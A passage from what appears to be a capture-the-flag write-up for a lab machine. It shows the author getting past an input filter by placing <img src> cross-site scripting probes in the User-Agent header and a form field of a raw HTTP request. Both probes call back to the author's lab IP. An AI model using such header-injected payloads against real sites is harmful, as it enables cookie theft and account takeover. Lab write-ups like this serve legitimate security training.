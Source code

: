 ![Hacking Detected](/assets/images/2024/07/Headless/HackingDetected.png "Hacking Detected")

My attempts were blocked. But it also displayed my request headers back to me. I tried sending my malicious payload in a header.

```http
POST /support HTTP/1.1
Host: target.htb:5000
User-Agent: <img src="http://10.10.14.121/agent" />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=first&lname=last&email=test%40test.com&phone=phone&message=<img src="http://10.10.14.121/message" />
```
